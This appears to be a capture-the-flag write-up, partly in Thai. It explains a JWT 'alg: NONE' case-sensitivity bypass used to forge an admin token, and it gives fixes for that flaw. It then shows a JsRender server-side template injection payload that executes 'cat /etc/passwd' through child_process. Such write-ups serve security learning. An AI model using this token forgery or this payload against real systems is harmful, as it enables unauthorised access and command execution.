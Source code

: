 ![alt text](image-4.png)

![alt text](image-5.png)

username admin

![alt text](image-6.png)

register and login to get cookie 

![alt text](image-7.png)

![alt text](image-1.png)

admin should use  id=1



## สรุปช่องโหว่:

### 1. **Case Sensitive Bypass**
```javascript
if (decoded.header.alg == 'none')  // ตรวจแค่ 'none' (lowercase)
// แต่ 'NONE', 'None', 'NoNe' จะผ่านไป else clause
```

### 2. **User-Controlled Algorithm**
```javascript
algorithms: [decoded.header.alg]  // Trust user input!
// Attacker ส่ง 'NONE' มา → algorithms: ['NONE']
```

### 3. **null Secret + none Algorithm = No Verification**
```javascript
jwt.verify(token, null, { algorithms: ['NONE'] })
// jwt library รู้ว่า NONE = none variant
// เลยไม่ throw error และ return payload ให้
```

## Flow การโจมตี:

```
1. Attacker สร้าง JWT: { "alg": "NONE", "typ": "JWT" }
   Payload: { "id": 1, "username": "admin" }
   
2. เข้า AdminMiddleware:
   - decoded.header.alg == 'none' → false (เพราะ 'NONE' ≠ 'none')
   - decoded.header.alg == 'HS256' → false  
   - เข้า else clause ✓
   
3. jwt.verify(token, null, { algorithms: ['NONE'] })
   - Library ตีความ 'NONE' เป็น 'none' algorithm
   - ไม่ verify signature (เพราะ none algorithm)
   - Return payload: { id: 1, username: "admin" } ✓
   
4. Bypass admin check ✓
```

## การแก้ไขที่ถูกต้อง:

```javascript
// ✅ Fix 1: Whitelist algorithms เท่านั้น
const user = jwt.verify(sessionCookie, tokenKey, {
    algorithms: ['HS256']  // ไม่ยอมรับ user input
});

// ✅ Fix 2: Normalize case ก่อนเช็ค
if (decoded.header.alg.toLowerCase() === 'none') {
    return res.redirect("/login");
}

// ✅ Fix 3: ไม่ใช้ null secret เลย
// ถ้าไม่ใช่ HS256 ก็ reject เลย//
```
![alt text](image-8.png)

list all username ดังนั้นจะ server site template injection ผ่าน username parameter

![alt text](image-9.png)

![alt text](image-10.png)

https://appcheck-ng.com/template-injection-jsrender-jsviews/

{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}

![alt text](image-3.png)


